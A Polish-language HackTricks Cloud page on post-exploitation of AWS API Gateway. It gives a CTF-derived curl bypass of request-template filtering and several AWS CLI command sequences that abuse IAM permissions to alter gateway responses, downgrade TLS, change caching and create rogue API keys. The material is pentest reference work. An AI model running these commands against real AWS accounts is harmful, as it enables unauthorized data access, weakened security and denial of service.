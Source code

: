# AWS - API Gateway Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## API Gateway

Aby uzyskać więcej informacji, sprawdź:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### Dostęp do nieujawnionych API

Możesz utworzyć punkt końcowy w [https://us-east-1.console.aws.amazon.com/vpc/home#CreateVpcEndpoint](https://us-east-1.console.aws.amazon.com/vpc/home?region=us-east-1#CreateVpcEndpoint:) z usługą `com.amazonaws.us-east-1.execute-api`, ujawnić punkt końcowy w sieci, do której masz dostęp (potencjalnie za pośrednictwem maszyny EC2) i przypisać grupę zabezpieczeń zezwalającą na wszystkie połączenia.\
Następnie z maszyny EC2 będziesz mógł uzyskać dostęp do punktu końcowego, a tym samym wywołać API bramy, które wcześniej nie było ujawnione.

### Ominięcie przekazywania ciała żądania

Ta technika została znaleziona w [**tym opisie CTF**](https://blog-tyage-net.translate.goog/post/2023/2023-09-03-midnightsun/?\_x\_tr\_sl=en&\_x\_tr\_tl=es&\_x\_tr\_hl=en&\_x\_tr\_pto=wapp).

Jak wskazano w [**dokumentacji AWS**](https://docs.aws.amazon.com/AWSCloudFormation/latest/UserGuide/aws-properties-apigateway-method-integration.html) w sekcji `PassthroughBehavior`, domyślnie wartość **`WHEN_NO_MATCH`**, podczas sprawdzania nagłówka **Content-Type** żądania, przekaże żądanie do zaplecza bez transformacji.

W związku z tym w CTF brama API miała szablon integracji, który **zapobiegał wyciekowi flagi** w odpowiedzi, gdy wysłano żądanie z `Content-Type: application/json`:

{% code overflow="wrap" %}
```yaml
RequestTemplates:
application/json: '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename=:moviename","FilterExpression": "not contains(#description, :flagstring)","ExpressionAttributeNames": {"#description": "description"},"ExpressionAttributeValues":{":moviename":{"S":"$util.escapeJavaScript($input.params(''moviename''))"},":flagstring":{"S":"midnight"}}}'
```
{% endcode %}

Jednak wysłanie żądania z **`Content-type: text/json`** uniemożliwiłoby ten filtr.

Na koniec, ponieważ API Gateway pozwalał tylko na `Get` i `Options`, możliwe było wysłanie dowolnego zapytania do dynamoDB bez żadnych ograniczeń, wysyłając żądanie POST z zapytaniem w ciele i używając nagłówka `X-HTTP-Method-Override: GET`:

{% code overflow="wrap" %}
```bash
curl https://vu5bqggmfc.execute-api.eu-north-1.amazonaws.com/prod/movies/hackers -H 'X-HTTP-Method-Override: GET' -H 'Content-Type: text/json'  --data '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename = :moviename","ExpressionAttributeValues":{":moviename":{"S":"hackers"}}}'
```
{% endcode %}

### Plany Użytkowania DoS

W sekcji **Enumeracja** możesz zobaczyć, jak **uzyskać plan użytkowania** kluczy. Jeśli masz klucz i jest on **ograniczony** do X użyć **na miesiąc**, możesz **po prostu go użyć i spowodować DoS**.

**Klucz API** musi być **dołączony** w **nagłówku HTTP** o nazwie **`x-api-key`**.

### `apigateway:UpdateGatewayResponse`, `apigateway:CreateDeployment`

Atakujący z uprawnieniami `apigateway:UpdateGatewayResponse` i `apigateway:CreateDeployment` może **zmodyfikować istniejącą odpowiedź bramy, aby dodać niestandardowe nagłówki lub szablony odpowiedzi, które ujawniają wrażliwe informacje lub wykonują złośliwe skrypty**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESPONSE_TYPE="DEFAULT_4XX"

# Update the Gateway Response
aws apigateway update-gateway-response --rest-api-id $API_ID --response-type $RESPONSE_TYPE --patch-operations op=replace,path=/responseTemplates/application~1json,value="{\"message\":\"$context.error.message\", \"malicious_header\":\"malicious_value\"}"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Potencjalny wpływ**: Wycieki wrażliwych informacji, wykonywanie złośliwych skryptów lub nieautoryzowany dostęp do zasobów API.

{% hint style="info" %}
Wymaga testowania
{% endhint %}

### `apigateway:UpdateStage`, `apigateway:CreateDeployment`

Atakujący z uprawnieniami `apigateway:UpdateStage` i `apigateway:CreateDeployment` może **zmodyfikować istniejący etap API Gateway, aby przekierować ruch do innego etapu lub zmienić ustawienia pamięci podręcznej, aby uzyskać nieautoryzowany dostęp do danych w pamięci podręcznej**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
STAGE_NAME="Prod"

# Update the API Gateway stage
aws apigateway update-stage --rest-api-id $API_ID --stage-name $STAGE_NAME --patch-operations op=replace,path=/cacheClusterEnabled,value=true,op=replace,path=/cacheClusterSize,value="0.5"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Potencjalny wpływ**: Nieautoryzowany dostęp do pamięci podręcznej danych, zakłócanie lub przechwytywanie ruchu API.

{% hint style="info" %}
Wymaga testowania
{% endhint %}

### `apigateway:PutMethodResponse`, `apigateway:CreateDeployment`

Napastnik z uprawnieniami `apigateway:PutMethodResponse` i `apigateway:CreateDeployment` może **zmodyfikować odpowiedź metody istniejącej metody API Gateway REST API, aby dodać niestandardowe nagłówki lub szablony odpowiedzi, które ujawniają wrażliwe informacje lub wykonują złośliwe skrypty**.
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
STATUS_CODE="200"

# Update the method response
aws apigateway put-method-response --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --status-code $STATUS_CODE --response-parameters "method.response.header.malicious_header=true"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Potencjalny wpływ**: Wyciek wrażliwych informacji, wykonywanie złośliwych skryptów lub nieautoryzowany dostęp do zasobów API.

{% hint style="info" %}
Wymaga testowania
{% endhint %}

### `apigateway:UpdateRestApi`, `apigateway:CreateDeployment`

Napastnik z uprawnieniami `apigateway:UpdateRestApi` i `apigateway:CreateDeployment` może **zmodyfikować ustawienia API Gateway REST API, aby wyłączyć logowanie lub zmienić minimalną wersję TLS, co potencjalnie osłabia bezpieczeństwo API**.
```bash
API_ID="your-api-id"

# Update the REST API settings
aws apigateway update-rest-api --rest-api-id $API_ID --patch-operations op=replace,path=/minimumTlsVersion,value='TLS_1.0',op=replace,path=/apiKeySource,value='AUTHORIZER'

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Potencjalny wpływ**: Osłabienie bezpieczeństwa API, co może prowadzić do nieautoryzowanego dostępu lub ujawnienia wrażliwych informacji.

{% hint style="info" %}
Potrzebne testowanie
{% endhint %}

### `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, `apigateway:CreateUsagePlanKey`

Atakujący z uprawnieniami `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan` i `apigateway:CreateUsagePlanKey` może **tworzyć nowe klucze API, przypisywać je do planów użytkowania, a następnie używać tych kluczy do nieautoryzowanego dostępu do API**.
```bash
# Create a new API key
API_KEY=$(aws apigateway create-api-key --enabled --output text --query 'id')

# Create a new usage plan
USAGE_PLAN=$(aws apigateway create-usage-plan --name "MaliciousUsagePlan" --output text --query 'id')

# Associate the API key with the usage plan
aws apigateway create-usage-plan-key --usage-plan-id $USAGE_PLAN --key-id $API_KEY --key-type API_KEY
```
**Potencjalny wpływ**: Nieautoryzowany dostęp do zasobów API, omijanie zabezpieczeń.

{% hint style="info" %}
Wymaga testowania
{% endhint %}

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}
